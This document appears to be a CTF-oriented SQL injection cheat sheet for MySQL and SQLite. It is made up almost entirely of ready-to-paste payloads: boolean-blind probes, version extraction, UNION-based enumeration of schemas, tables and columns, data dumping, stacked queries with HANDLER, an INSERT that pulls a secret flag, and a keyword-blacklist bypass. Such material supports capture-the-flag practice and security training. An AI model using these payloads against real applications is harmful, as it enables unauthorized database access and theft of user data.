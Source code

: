 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind sqli
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Find version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())=6)#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))=53)#`


- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

### Tricks

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```


## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`

### Tricks

  - Bypass blacklist words
    - `ad'||'min`

